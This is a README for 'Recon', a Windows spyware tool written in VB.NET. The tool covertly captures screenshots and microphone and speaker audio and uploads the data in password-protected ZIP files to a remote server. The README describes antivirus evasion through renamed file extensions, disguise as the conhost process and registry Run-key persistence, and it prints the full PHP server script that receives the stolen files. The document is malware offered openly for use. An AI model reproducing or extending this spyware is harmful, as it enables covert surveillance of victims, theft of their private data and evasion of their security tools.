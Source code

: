 # Recon
### Basic spyware that can secretly take screenshots and record the audio input and output of the target computer.
  
  
  ![Reconnaissance](https://www.hackingloops.com/wp-content/uploads/2016/06/guy-with-binoculars-for-intro-photo.jpg)
    
      
- Recon is a Windows Form app written in VB.NET targeting the .NET Framework 4.7.2
- Recon takes a screenshot of the target computer desktop every 5 seconds, it saves screenshots in PNG format. The app uses [nQuant.Core.NETStandard](https://www.nuget.org/packages/nQuant.Core.NETStandard/1.0.0) and custom PNG encoder parameters to reduce the size of the generated PNG files thus optimizing the data upload speed.
- Recon uses [NAudio](https://github.com/naudio/NAudio) to capture the audio input and output into WAV streams.
- Recon uses [NAudio.Lame](https://github.com/Corey-M/NAudio.Lame) to convert WAV streams to MP3 in order to produce smaller audio files suitable for data exfiltration.
- The app uses custom file extensions so that it won't trigger AVs(rpng for PNG image files, rmp3 for MP3 files, and rzip for ZIP archive files).
- After generating the data, the app uses [DotNetZip](https://github.com/haf/DotNetZip.Semverd) to create a password-protected ZIP file to contain the exfiltrated data. The ZIP files will be uploaded to the remote server every 15 minutes using the **WebClient** class.
- The app uploads the generated screenshots and audio files to the remote server running the following PHP script:
```
<?php

header("Cache-Control: no-store, no-cache, must-revalidate, max-age=0");
header("Cache-Control: post-check=0, pre-check=0", false);
header("Pragma: no-cache");

if (!isset($_POST)) exit(-1); // No POST data

if (isset($_GET['computer_id']) && !empty($_GET['computer_id'])) {
  $computerId = htmlspecialchars(trim($_GET['computer_id']), ENT_QUOTES); //Get target computer ID
} else {
  echo "No computer ID";
  exit(-1);
}

$data_dir = './data/';

$target_dir = $data_dir . $computerId;
if (!file_exists($target_dir))  mkdir(($target_dir));

$target_file = $target_dir . '/' . basename($_FILES["file"]["name"]);
$target_fileType = strtolower(pathinfo($target_file, PATHINFO_EXTENSION));

$uploadOk = 1;

// Check if file already exists
if (file_exists($target_file)) {
  echo "File already exists";
  $uploadOk = 0;
}

// Check file size
if ($_FILES["file"]["size"] > 250000000) { //250 MB limit
  echo "File exceeds the maximum size";
  $uploadOk = 0;
}

// Check file type
if ($target_fileType != "zip" && $target_fileType != "rzip") {
  echo "Only ZIP and RZIP files are allowed";
  $uploadOk = 0;
}

if ($uploadOk == 1) {

  $tmp_name = $_FILES["file"]["tmp_name"];

  if (move_uploaded_file($tmp_name, $target_file)) {
    echo "File uploaded successfully";
  } else {
    echo "Error uploading the file";
  }
}

```
- The app generates an ID for the target computer and sends it to the remote server; the ID consists of the machine name, user name, and OS version. The computer ID helps organize the uploaded data on the server.
- The app disguises itself as conhost process, it uses a similar icon and file properties.
- Recon acheives persistence by adding itself in *HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\Run* *HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce*
